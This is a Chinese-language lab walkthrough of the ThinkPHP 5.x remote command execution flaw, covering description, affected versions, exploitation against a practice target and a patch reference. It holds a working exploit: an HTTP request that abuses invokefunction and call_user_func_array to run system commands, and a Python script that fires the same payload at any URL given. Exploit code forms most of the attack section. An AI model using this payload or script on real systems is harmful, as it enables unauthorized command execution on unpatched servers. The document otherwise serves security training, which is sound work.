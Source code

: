 thinkphp_5 命令执行

# 一、漏洞描述



Thinkphp5.x 版本（5.0.20）中没有对路由中的控制器进行严格过滤，在存在 admin，index 模块、没有开启强制路由的条件下（默认不开启），导致可以注入恶意代码利用反射类调用命名空间其他任意内置类，完成远程代码执行。



# 二、影响版本



ThinkPHP 5.x  < ThinkPHP 5.1.31<=  ThinkPHP 5.0.23



# 三、利用流程

靶场基本信息

靶场地址：`10.10.11.20:19809`

靶场名称: Thinkphp5

靶场描述: Thinkphp5 命令执行

尝试 poc，查询`/tmp`目录下的`flag`

```
GET /index.php/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=ls%20/tmp HTTP/1.1
Host: 10.10.11.20:19809
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:49.0) Gecko/20100101 Firefox/49.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Cookie: wordpress_test_cookie=WP+Cookie+check; wordpress_logged_in_07be81f78d509865b1926609964cf0ca=admin%7C1590115158%7CN20HCrC96zVmXgHk0BlnkROKbvQd4vf8nAxZoe2G7Uf%7C24b3491dd375a352ed0e49eb87acb2af156ffc23524cdc515962f170639193d5; wp-settings-time-1=1589947833
DNT: 1
X-Forwarded-For: 8.8.8.8
Connection: close
Upgrade-Insecure-Requests: 1
```

执行结果成功

![exp](./exp.jpg)



尝试编写 poc

```python
import requests
import sys

def run(ip):
    poc = "/index.php/?s=index/\\think\\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=ls%20/tmp"  
    header = {'User-Agent': 'Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:22.0) Gecko/20100101 Firefox/22.0', }
    url = ip+poc
    req = requests.get(url, header)
    if req.status_code == 200:
        if "flag" in req.text:
            print(req.text)
if __name__ == '__main__':
    url = sys.argv[1]
    if url[:4] != "http":
        url = "http://"+url

    run(url)
```



![py-tool](./py-tool.jpg)

复制结果提交，通关



# 四、修复方案



1、官网已发布安全更新，用户可以通过网址[http://www.thinkphp.cn/topic/60400.html ](http://www.thinkphp.cn/topic/60400.html)获得.

2、建议使用以上 ThinkPHP5  开发的内容管理系统的用户及时检查是否存在该漏洞。




